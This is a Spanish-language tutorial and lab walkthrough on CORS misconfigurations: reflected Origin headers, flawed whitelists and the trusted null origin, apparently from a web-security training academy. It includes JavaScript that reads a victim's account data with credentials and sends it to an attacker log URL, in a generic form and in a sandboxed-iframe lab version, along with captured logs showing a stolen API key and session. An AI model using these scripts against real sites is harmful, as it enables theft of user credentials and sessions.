

## Server-generated ACAO header from client-specified Origin header

Algunas aplicaciones necesitan proporcionar acceso a otros dominios. Mantener una lista de dominios permitidos requiere un esfuerzo continuo, y cualquier error puede comprometer la funcionalidad. Por eso, algunas aplicaciones optan por la vía más fácil y permiten el acceso desde cualquier otro dominio.

Una forma de hacerlo es leyendo el encabezado Origin de las solicitudes e incluyendo un encabezado de respuesta que indique que el origen solicitante está permitido. Por ejemplo, consideremos una aplicación que recibe la siguiente solicitud:

```c
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

A continuación, responde con:

```c
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Estos encabezados indican que se permite el acceso desde el dominio solicitante (`malicious-website.com`) y que las solicitudes de origen cruzado pueden incluir cookies (`Access-Control-Allow-Credentials: true`), por lo que se procesarán durante la sesión.

Dado que la aplicación refleja orígenes arbitrarios en el encabezado `Access-Control-Allow-Origin`, esto significa que absolutamente cualquier dominio puede acceder a los recursos del dominio vulnerable. Si la respuesta contiene información confidencial, como una clave API o un token CSRF, podría recuperarla colocando el siguiente script en su sitio web:

```c
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

## Errors parsing Origin headers

Algunas aplicaciones que admiten el acceso desde múltiples orígenes lo hacen utilizando una lista blanca de orígenes permitidos. Cuando se recibe una solicitud CORS, el origen proporcionado se compara con la lista blanca. Si el origen aparece en la lista blanca, se refleja en el encabezado `Access-Control-Allow-Origin` para que se conceda el acceso. Por ejemplo, la aplicación recibe una solicitud normal como:

```c
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

La aplicación comprueba el origen proporcionado con su lista de orígenes permitidos y, si está en la lista, refleja el origen de la siguiente manera:

```c
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

A menudo se producen errores al implementar listas blancas de origen CORS. Algunas organizaciones deciden permitir el acceso desde todos sus subdominios (incluidos los subdominios futuros que aún no existen). Y algunas aplicaciones permiten el acceso desde dominios de otras organizaciones, incluidos sus subdominios. Estas reglas suelen implementarse haciendo coincidir los prefijos o sufijos de las URL, o utilizando expresiones regulares. Cualquier error en la implementación puede dar lugar a que se conceda acceso a dominios externos no deseados.

Por ejemplo, supongamos que una aplicación concede acceso a todos los dominios que terminan en:

```c
normal-website.com
```

Un atacante podría obtener acceso registrando el dominio:

```c
hackersnormal-website.com
```

Por otra parte, supongamos que una aplicación concede acceso a todos los dominios que comienzan por

```c
normal-website.com
```

Un atacante podría obtener acceso utilizando el dominio:

```c
normal-website.com.evil-user.net
```

## Whitelisted null origin value

La especificación del encabezado Origin admite el valor `null`. Los navegadores pueden enviar el valor `null` en el encabezado Origin en diversas situaciones poco habituales:

- Redireccionamientos entre orígenes.
- Solicitudes de datos serializados.
- Solicitudes que utilizan el protocolo `file:`.
- Solicitudes entre orígenes en entornos aislados.

## Lab: CORS vulnerability with trusted null origin


Una vez iniciado sesion podemos ver que el usuario puede accede a su cuenta y esta hace una solicitud a `/accountDetails` para obtener la información de cada usuario



Al hacer la petición a `/accountDetails` observamos que este devuelve información del usuario y unas credenciales, así como la session


Ahora enviaremos a la victima nuestro script malicioso.

```c
<!DOCTYPE html>
<html lang="en">

<body>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','https://0a57004b0304e4de80f20d18008800ca.web-security-academy.net/accountDetails',true);
        req.withCredentials = true;
        req.send();
        function reqListener() {
            location='https://exploit-0a0e006f037de41f80750c3c01d000a6.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
        };
    </script>"></iframe>
</body>
</html>
```

Una vez enviada, podremos ver la información del usuario administrator.


```c
10.0.3.228      2025-09-22 15:34:37 +0000 "GET /log?key=%7B%0A%20%20%22username%22%3A%20%22administrator%22%2C%0A%20%20%22email%22%3A%20%22%22%2C%0A%20%20%22apikey%22%3A%20%22VcnzZSwx3G2pF8fiz0yZwabN9JG5pug4%22%2C%0A%20%20%22sessions%22%3A%20%5B%0A%20%20%20%20%22woXkLoEaVfS70SWB2BPeDYxApS0p6HiG%22%0A%20%20%5D%0A%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

```c
10.0.3.228      2025-09-22 15:34:37  0000 "GET /log?key={
  "username": "administrator",
  "email": "",
  "apikey": "VcnzZSwx3G2pF8fiz0yZwabN9JG5pug4",
  "sessions": [
    "woXkLoEaVfS70SWB2BPeDYxApS0p6HiG"
  ]
} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```